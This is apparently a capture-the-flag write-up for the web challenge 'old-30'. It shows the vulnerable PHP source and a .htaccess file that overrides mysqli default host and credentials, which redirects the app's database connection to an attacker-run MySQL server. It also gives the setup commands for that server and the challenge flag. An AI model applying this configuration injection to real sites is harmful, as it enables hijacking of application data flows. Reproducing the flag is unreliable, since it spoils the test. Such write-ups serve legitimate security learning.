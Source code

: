 ```yaml
---
layout: default
title: old-30
---
```




Here we can see it tries to connect to a mySQL server, but doesn't supply parameters to the `mysqli_connect` function:

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

## Configuration Injection

So, according to [default config files location](https://www.php.net/manual/en/configuration.changes.modes.php), so, we can upload our own `.htaccess` file, and there set the default mySQL server.

Our `.htaccess` file, fill the fields with your credentials:
```
php_value mysqli.default_port "...."
php_value mysqli.default_host "...."
php_value mysqli.default_user "...."
php_value mysqli.default_pw "...."
```

## Setting our MySQL server

I used this free website [Free My SQL server hosting](https://console.aiven.io/), after creating my free service, i connected to my SQL server:
`mysql --user username --password=password --host yoursubdomain.aivencloud.com --port ????? defaultdb`

Then, in the command line i ran those commands:

```
Create DATABASE chall30;
use chall30;

Create TABLE chall30_answer (flag VARCHAR(30) PRIMARY KEY);
Insert into chall30_answer (flag) VALUES ('hello world!');
select * from chall30_answer;   ### checking

### changing from "caching_sha2_password" to "mysql_native_password"

use mysql
ALTER USER 'username'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
select user,plugin from user;   ### checking
```

![FLAG](./images/old-30.png)

**Flag:** ***`FLAG{uhoh-db-connection-hijacking?}`*** 


